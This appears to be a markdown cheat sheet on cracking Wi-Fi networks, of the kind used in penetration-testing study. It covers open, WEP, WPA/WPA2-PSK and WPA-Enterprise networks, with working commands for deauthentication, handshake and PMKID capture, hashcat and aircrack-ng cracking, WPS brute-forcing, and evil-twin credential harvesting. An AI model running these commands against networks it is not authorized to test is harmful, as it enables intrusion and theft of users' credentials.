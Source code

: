 # CRACKING CONCEPTS

**Category:** HIGH LEVEL
## Open (OPN) Networks
No encryption. Anyone can connect and sniff traffic (unless HTTPS is used).

```bash
Passive sniffing (e.g., airodump-ng, tcpdump)
ARP spoofing, DNS spoofing, session hijacking (e.g., ettercap, bettercap)
Evil twin or captive portal injection
```

## Wired Equivalency Prototol (WEP) Networks
Very weak encryption, crackable in minutes.

```bash
Capture a large number of IVs (Initialization Vectors) with airodump-ng
Speed up collection with ARP replay:
   aireplay-ng -3 -b <BSSID> -h <your MAC> wlan1
Crack key with:
   aircrack-ng <capture file>
```

## WPA/WPA2-Personal (PSK) Networks
Shared password, secured via a 4-way handshake.
Primary attack: Capture the handshake and crack it offline with a wordlist.

Standard Attack Flow
```bash
Start monitor mode and capture traffic: airodump-ng
Deauth a client: aireplay-ng -0 10 -a <BSSID> -c <client> wlan1
Wait for reconnect — capture the 4-way handshake
Crack:
    aircrack-ng -w <wordlist> <capture.cap>
```

PMKID Attack (No client needed)
Works on some routers (mainly Broadcom)
```bash
hcxdumptool -i wlan1mon -o dump.pcapng --enable_status=1
hcxpcapngtool -o pmkid.hccapx dump.pcapng
hashcat -m 16800 pmkid.hccapx -a 0 <wordlist>
```
WPS PIN Brute-force (Vulnerable routers with WPS enabled)
```bash
reaver -i wlan1mon -b <BSSID> -vv
```

Offline Rainbow Table Attacks (e.g. cowpatty)
```bash
Pre-computed PMKs based on SSID and dictionary
```



## WPA/WPA2-Enterprise (WPA-MGT / WPA-EAP) Networks
Uses 802.1X with a RADIUS server and EAP authentication
Password not stored in a static hash like PSK — must be captured in real-time during login and cracked.

Evil Twin (PEAP/MSCHAPv2)
```bash
Spoof real SSID using hostapd-wpe
User connects, supplies credentials → hashes logged
Crack with asleap or hashcat (MSCHAPv2 hash)
```

Rogue AP / Probe Attack
```bash
Use hostapd-wpe or eaphammer to listen for probe requests
Stand up AP with matching SSID
When client autoconnects, grab MSCHAPv2 creds
```

MITM Downgrade (EAP-Relay)
```bash
Relay client’s credentials to real server (e.g., wifiphisher MITM attacks)
May work depending on misconfigurations
```

Credential Harvesting w/ Fake Portal
```bash
Use wifiphisher or custom captive portal
Not a hash-based crack, but still credential theft
```
--
